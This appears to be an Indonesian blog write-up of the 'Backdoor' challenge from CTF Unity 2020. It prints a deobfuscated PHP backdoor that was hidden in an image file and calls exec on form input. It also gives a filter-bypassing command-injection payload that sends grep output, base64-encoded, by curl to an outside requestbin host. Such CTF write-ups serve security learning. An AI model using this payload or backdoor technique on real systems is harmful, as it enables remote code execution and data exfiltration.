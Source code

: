```yaml
---
title: Writeup CTF Unity 2020 - Backdoor
author: cacadosman
type: post
date: 2019-10-07T17:06:28+00:00
url: /writeup-ctf-unity-2020-backdoor/
comments: true
categories:
    - CTF
    - Cyber Security

---
```

Writeup CTF Unity 2020 - Backdoor. Halo semua, sekarang kita akan membahas cara menyelesaikan soal Backdoor pada CTF Unity 2020.   

URL Challenge: http://68.183.176.121/


Diberikan sebuah sourcecode yang didalamnya terdapat sebuah backdoor.
Benar saja, terdapat source yang mencurigakan pada file **./assets/img/default.jfif** 
Namun, file tersebut masih terobfuscate, sehingga kita rapikan kodenya agar mudah dibaca.

Berikut adalah hasil kode yang sudah dirapikan:
```php
<?php 

include "variables.php";


$kadsooasd="st";
$ldksadsakla="ev";
$lkklklkdasl="r";
$strrev=$kadsooasd.$lkklklkdasl.$lkklklkdasl.$ldksadsakla; // strrev
$hello = "bjlgqipqipeaelohasnda";
$hello.=$hello[strlen($hello)-7];
$hello.=$hello[2];
$hello.=$hello[strlen($hello)-10];
$hello.=$hello[10];
$hello.=$hello[strlen($hello)-10];
$hello=substr($hello,strlen($hello)-(ord($hello[4])-ord($hello[2])));
$hello=@$strrev($hello);


function shell($lkklklkdaslmd){
    include "variables.php";
    return @$$$$kamu($lkklklkdaslmd); //die
};

function title($string){
    include "variables.php";
    global $strrev;
    $date = date('Y-m-d');
    $kadsooasds = @$strrev(chr(111)."h".$$$$$heker[0].$$dia[2]); //echo
    echo $kadsooasds;
    $string = str_replace(" ","_",$string);
    $ret=$$$$$$$kamu.$$$mati[0]; //exec
    return @$ret("$kadsooasds \"$string-$date.txt\""); 
}

if (isset($_POST['name'], $_POST['email'], $_POST['subject'],
$_POST['message'])){ 
    if (!empty(strpos("unity $_POST[message]", $hello))){
        $f = fopen("./uny/mail/".title(htmlentities($_POST['name'])), 'w');
        // echo $f;
        $isi = "From\t\t: $_POST[email]
Subject\t\t: $_POST[subject]
Message\t\t: $_POST[message]";
        fwrite($f, $isi);
        die("Done");
    }
} 
?>
```

Hal yang mencurigakan adalah, pada baris kode:
```php
return @$ret("$kadsooasds \"$string-$date.txt\"");
```

Kode tersebut melakukan return fungsi **exec** yang dapat mengakibatkan **Remote Code Execution**. Jika diterjemahkan, kode tersebut mengeksekusi:
```php
return exec("echo \"$string-$date.txt\"");
```

Dimana kita bisa mengubah nilai dari variabel **$string** berdasarkan parameter **name** pada metode **POST**. Sialnya, terdapat fungsi **htmlentities** dan fungsi yang melakukan replace spasi menjadi underscore, sehingga untuk membypassnya menjadi sulit.

Sehingga, untuk membypass filter, kita akan gunakan beberapa trik berikut:
- Spasi diganti dengan **${IFS}**
- Karena tidak bisa menggunakan single dan double quotes, kita akan menggunakan **$()** untuk mengeksekusi command bash.
- Karena tidak ada outputnya (blind), kita akan melempar hasil dari command yang kita inject menggunakan curl ke **requestbin** dengan perintah `curl${IFS}--data${IFS}{a=command}${IFS}https://iniurlpokoknya.com`.
- Agar data yang dikirimkan tidak error, kita akan convert outputnya menjadi base64 dengan command `command|base64${IFS}-w${IFS}0`

Maka hasil akhir payloadnya sebagai berikut:
```bash
$(curl${IFS}--data${IFS}{a=$(grep${IFS}-r${IFS}UNITY${IFS}/var|base64${IFS}-w${IFS}0)}${IFS}https://envcnlmm9u3oa.x.pipedream.net)
```

Terus flagnya mana? 
Jadi flagnya kita kirim ke url https://enkak77rjv029.x.pipedream.net (requestbin) menggunakan curl dan diencode menjadi base64.
![RequestBin](/requestbin.PNG)

Lalu kita decode base64 nya
![RequestBin](/backdoorflag.PNG)

Maka kita berhasil mendapatkan flagnya ^_^

Sekian pembahasan yang saya sampaikan.
Apabila terdapat kesalahan baik yang disengaja dan tidak, saya mohon maaf dan tolong untuk dikoreksi.

Semoga artikel ini dapat bermanfaat.  
Terima kasih.